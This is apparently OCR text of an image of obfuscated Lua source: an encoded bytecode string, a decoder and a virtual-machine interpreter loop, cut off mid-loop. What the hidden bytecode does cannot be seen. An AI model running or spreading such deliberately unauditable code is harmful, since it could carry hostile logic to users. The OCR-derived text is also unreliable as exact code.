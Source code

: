 s=t(e,"PXwzA*stmT_Jo1aKao__tK*AwT&*1z_mt1_Tmo*aXTX*a_JJw*tzoK_AtTJsTtsoz1X*JXtJ*6*_zAXz1mJTTX*mKtYXawJ*Ao*zzt(*_,J1mM*ww18T1a_KmoX1KAoTT1tzAmXaK*o__XtzAoX_Kwo*TTtzATXoKzoXafmwtsztwJoX_JJEzK*m>A1moot_tXzs<XKAJs_aA1*XXT1zTwtJAXXsXKKm_*_J*TwzMTJmTXta*1*)azam__*KAKAtK11JJXTaAafmRK19mwmKz*zJXAoETJ*_szKKk1os_zT1KJaw_*t_AKtts1wKX*aoJsTR*aaoKA1TJ1mTs*zao1_wttXaKJomT1twTomK*szmUT1XJwtKaK1XTTsaAzmA*owzKJ1*_Kt1*awz%toK_AmwaTooTzsmz1*1Amw*a_ot_TttzmwwKa1AsaAsXtJmTtswztHoA1w*aooA_mta*XX1Kto*zzXm11JwmtTK_stTAKXKKw_1TwtsAwXaKt_smasKzo_oJm*swJD!wTXwamotATsAzoXAawtwTa*1AAosaJowTAsazA2ta1JzmtXmAAIJaJJAAXAzz_eKazT1mA*taTKA_ssmtKsJataw1s__m2swwsRsTwt1*wwtKoTmmwAwXtaoXmKt1AJAta*mwsJAoK_1m*OmX2K*1T_*mX*_aTJaTzz_XsaAJTma_J_omX*wKaKX1*zswAajJ*m__o_ztmAo?sa1oMTX*_*<wzaKoTTttmwwXmamJ1TztXXTwXKsoTwoXA1s_JmyTmTwsAztXAatoXmKX1w*M_aaJ_TssKAz1z_mt1wAKJoa_ztm_osTKt1X_XtsAJtA*_AwXz_mATAmKzomT1*wKKT11XtaAa*OK1JKoKtoA_AaKJTKo1t_z_AoKTotoJtmwaA_KtJaoTtsXtAmK*J*ottAA*AsKz_JXzamJ1sAzaxaazJmaXot_KmjXwJsmKsQz*Z_AsX*Ksozzz*t11JwmtoA_*t_AJwzJKmT*atsz_w*JXJKTstszKwXazoJTas*AtL1aaowT1szAXXo_JJ*TssTS,K<K,ozTT*Jz1Xza1Jsmms_zXYK1otJTX*JzKXz1aJtTtwsKJo1aY_Tmss4Ksyo1sJ_ma*Tzw5XaA_1mosXKXLAaw_zXtKXoXTssJTAt_swzzotsTAJXzamJ1KXJrT*t1AmwKa__amat1AoXQ1zszAmp1awJt1KoA_mtA*UwT___J_zs_AwXmaomJs%z*1oJsms*Jz&*TzKwtKmmJA1Ez1m_1mws1woHX1s_om7**w_XX1K_Tta*zzAK11w_tmasAwsKJ1-J_t_AKwAXKaJ_ztmA1wmKto1_XtKAJwA.Xo_TKtAAKXaKAom_XtaAtXoKXo1TJtXA*X_KzoATTsaAAXma1ow_TtzAXXsaJosT*s_zKwsaaJaTzsmAXXwatJo_zsTzJX#a*JomKsAzTwBaAJmm1swzm;oaXJsmJtoz*9_1KJ*mT*azzX_a_Jwmt*ozsns1JJjTttXwKEA1TJomz*mw1zw1J_omX*szz<<a*__TXsmwTKa1zJst1*wwtwo1K_stJ*yzsK_a*_AmJsmwzKmo1J5ttAowXws1*_qt*A_zsKA1zTam*AKX1Kwot__tXAsXJw2oTT_sKAAw1aa1 TmtKAKXtaooX_AsJA%X*X_oXTAsTzawwamo7TwtT*GXXasJJTts*z_NKKsowmasAzmXKawJtmomXzaGJaXJ*mJ*KzKQTKdo*mms:zwX_1oJXms*Jza^*1J_Kmt*TwaHz1mJ_mw*twohX1s_1mM**A?KK1A_TtK*zwTK11wJoto*XwsKo1._*t_AKwAKToa_z");local n=0;d.pYFdngLi(function()d.pEZQgSSZ()n=n+1 end)local function e(t,e)if e then return n end;n=t+n;end local t,n,r=a(0,a,e,s,d._rgDJwOZ);local function f()local t,n=d._rgDJwOZ(s,e(1,3),e(5,6)+2);e(2);return(n*256)+t;end;local u=true;local u=0 local function z()local o=n();local e=n();local l=1;local o=(t(e,1,20)*(2^32))+o;local n=t(e,21,31);local e=((-1)^t(e,32));if(n==0)then if(o==u)then return e*0;else n=1;l=0;end;elseif(n==2047)then return(o==0)and(e*(1/0))or(e*(0/0));end;return d.oOfjeLgy(e,n-1023)*(l+(o/(2^52)));end;local p=n;local function b(n)local t;if(not n)then n=p();if(n==0)then return'';end;end;t=d.OOPnMCWG(s,e(1,3),e(5,6)+n-1);e(n)local e=""for n=(1+u),#t do e=e..d.OOPnMCWG(t,n,n)end return e;end;local u=#d.eugZZxQF(m('\49.\48'))~=1 local e=n;local function p(...)return{...},d.cQxBCWwa('#',...)end local function j()local e={};local s={};local h={};local m={h,s,nil,e};local e=n()local a={}for o=1,e do local t=r();local n;if(t==1)then n=(r()~=#{});elseif(t==3)then local e=z();if u and d.BlePAsyk(d.eugZZxQF(e),'.(\48+)$')then e=d.uHMFmkBz(e);end n=e;elseif(t==0)then n=b();end;a[o]=n;end;for s=1,n()do local e=r();if(t(e,1,1)==0)then local d=t(e,2,3);local r=t(e,4,6);local e={f(),f(),nil,nil};if(d==0)then e[l]=f();e[c]=f();elseif(d==#{1})then e[l]=n();elseif(d==_[2])then e[l]=n()-(2^16)elseif(d==_[3])then e[l]=n()-(2^16)e[c]=f();end;if(t(r,1,1)==1)then e[o]=a[e[o]]end if(t(r,2,2)==1)then e[l]=a[e[l]]end if(t(r,3,3)==1)then e[c]=a[e[c]]end h[s]=e;end end;for e=1,n()do s[e-(#{1})]=j();end;m[3]=r();return m;end;local function y(t,e,n)local o=e;local o=n;return m(d.BlePAsyk(d.BlePAsyk(({d.pYFdngLi(t)})[2],e),n))end local function te(z,e,r)local function ne(...)local f,j,u,k,m,n,s,g,b,_,y,t;local e=0;while-1<e do if 2>=e then if e>=1 then if e>=-3 then for t=25,58 do if 2>e then u=a(6,29,3,40,z);m=p k=0;break;end;n=-41;s=-1;break;end;else u=a(6,29,3,40,z);m=p k=0;end else f=a(6,66,1,26,z);j=a(6,51,2,7,z);end else if e>=5 then if e==6 then e=-2;else t=a(7);end else if e>2 then for n=33,87 do if 3<e then _=d.cQxBCWwa('#',...)-1;y={};break;end;g={};b={...};break;end;else _=d.cQxBCWwa('#',...)-1;y={};end end end e=e+1;end;for e=0,_ do if(e>=u)then g[e-u]=b[e+1];else t[e]=b[e+1];end;end;local e=_-u+1 local e;local a;local function d(...)while true do end end while true do if n<-40 then n=n+42 end e=f[n];a=e[ee];if 13<a then if 21<=a then if 24>a then if 22>a then t[e[o]][e[l]]=e[c];else if 21<a then for d=32,66 do if 23~=a then for a=0,3 do if a>=2 then if 1<=a then repeat if 3~=a then t[e[o]]=r[e[l]];n=n+1;e=f[n];break;end;if(t[e[o]]==e[c])then n=n+1;else n=e[l];end;until true;else t[e[o]]=r[e[l]];n=n+1;e=f[n];end else if 0<a then r[e[l]]=t[e[o]];n=n+1;e=f[n];else t[e[o]]=(e[l]~=0);n=n+1;e=f[n];end end end break;end;t[e[o]][e[l]]=e[c];break;end;else for a=0,3 do if a>=2 then if 1<=a then repeat if 3~=a then t[e[o]]=r[e[l]];n=n+1;e=f[n];break;end;if(t[e[o]]==e[c])then n=n+1;else n=e[l];end;until true;else t[e[o]]=r[e[l]];n=n+1;e=f[n];end else if 0<a then r[e[l]]=t[e[o]];n=n+1;e=f[n];else t[e[o]]=(e[l]~=0);n=n+1;e=f[n];end end end end end else if a>25 then if 25<a then repeat if a>26 then if(t[e[o]]==e[c])then n=n+1;else n=e[l];end;break;end;local o=e[o];local n=t[e[l]];t[o+1]=n;t[o]=n[e[c]];until true;else if(t[e[o]]==e[c])then n=n+1;else n=e[l];end;end else if 21~=a then for n=38,82 do if 25>a then t[e[o]]=(e[l]~=0);break;end;t[e[o]]=r[e[l]];break;end;else t[e[o]]=r[e[l]];end end end else if 16<a then if 19>a then if a<18 then do return end;else local o=e[o];local n=t[e[l]];t[o+1]=n;t[o]=n[e[c]];end else if 16~=a then repeat if a~=20 then t[e[o]]();break;end;t[e[o]]=r[e[l]];until true;else t[e[o]]=r[e[l]];end end else if a<=14 then for a=0,6 do if a<3 then if a<1 then t[e[o]][e[l]]=e[c];n=n+1;e=f[n];else if-1~=a then for d=47,73 do if 1~=a then t[e[o]][e[l]]=e[c];n=n+1;e=f[n];break;end;t[e[o]]=r[e[l]];n=n+1;e=f[n];break;end;else t[e[o]][e[l]]=e[c];n=n+1;e=f[n];end end else if a>4 then if a>4 then for d=10,79 do if 6>a then